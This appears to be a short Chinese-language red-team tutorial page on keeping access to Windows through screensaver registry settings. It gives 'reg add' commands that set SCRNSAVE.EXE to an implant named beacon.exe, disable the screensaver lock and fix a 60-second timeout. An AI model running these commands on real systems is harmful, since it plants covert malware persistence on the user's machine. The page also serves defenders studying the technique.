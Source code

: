 ## 屏幕保护程序

### Screensaver

屏幕保护程序是具有 .scr 文件扩展名的可执行文件，并通过 scrnsave.scr 实用程序执行

屏幕保护程序设置存储在注册表中，从攻击角度来看，被认为最有价值的值是：

```cmd
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
```

## 利用方法

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的；屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍；经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序

只能获得当前用户权限的shell，优点是不需要提权即可维持

```cmd
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```


